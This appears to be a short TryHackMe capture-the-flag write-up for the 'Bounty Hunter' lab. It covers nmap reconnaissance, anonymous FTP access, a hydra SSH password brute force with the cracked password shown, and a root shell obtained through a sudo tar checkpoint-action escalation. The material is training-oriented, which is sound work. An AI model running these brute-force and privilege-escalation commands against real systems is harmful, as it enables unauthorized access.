







# tryhackme ctf challenge bounty hunter
my machine: 10.9.234.242
target: 10.10.164.185

## procedure

perform nmap scan `nmap -sC -sV <target ip>`

We will get 3 ports 21, 22, and 80

```
PORT      STATE  SERVICE         VERSION
21/tcp    open   ftp             vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.234.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp    open   http            Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

Since we added the switch `-sC`, nmap was able to identify that we can login as anonymous in the ftp service without any password. Once we logged in, we will get 2 files.







This are the files that we gathered and it looks like the locks file is a password list. In the task file I don't particularly understand the task, but we know it was created by `lin` which is probably a user that we can bruteforce to the open port 22 ssh service. Lets do that with hydra `hydra -l lin -P <locks.txt> ssh://<target-ip>`



`[22][ssh] host: 10.10.164.185   login: lin   password: RedDr4gonSynd1cat3`

lets try loggin and get the user flag.



Now lets try to find a privelege escalation vector using the command `sudo -l`



looks like we can run the `tar` command as root. Now to get root access type in this command `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`



There u go!
